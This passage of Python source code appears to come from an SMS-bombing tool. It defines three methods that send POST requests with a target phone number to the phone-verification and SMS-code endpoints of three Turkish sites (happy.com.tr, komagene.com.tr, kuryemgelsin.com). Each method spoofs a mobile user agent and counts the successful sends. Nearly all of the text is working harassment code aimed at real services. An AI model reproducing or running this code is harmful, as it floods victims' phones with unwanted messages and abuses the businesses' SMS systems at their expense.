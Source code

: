     
    #happy.com.tr
    def Happy(self):
        try:
            url = "https://www.happy.com.tr:443/index.php?route=account/register/verifyPhone"
            headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Accept": "application/json, text/javascript, */*; q=0.01", "X-Requested-With": "XMLHttpRequest", "Accept-Language": "en-US,en;q=0.9", "Accept-Encoding": "gzip, deflate", "Origin": "https://www.happy.com.tr", "User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 15_7_8 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko)", "Referer": "https://www.happy.com.tr/index.php?route=account/register"}
            data = {"telephone": self.phone}
            r = requests.post(url=url, data=data, headers=headers, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> happy.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> happy.com.tr")
    

    #komagene.com.tr
    def Komagene(self):
        try:
            url = "https://gateway.komagene.com.tr/auth/auth/smskodugonder"
            json={"Telefon": self.phone,"FirmaId": "32"}
            headers = {"user-agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 15_7_8 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko)"}
            r = requests.post(url=url, headers=headers, json=json, timeout=6)
            if r.json()["Success"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> gateway.komagene.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> gateway.komagene.com.tr")
    
    
    #kuryemgelsin.com
    def KuryemGelsin(self):
        try:
            url = "https://api.kuryemgelsin.com:443/tr/api/users/registerMessage/"
            json={"phoneNumber": self.phone, "phone_country_code": "+90"}
            r = requests.post(url=url, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.kuryemgelsin.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.kuryemgelsin.com")
    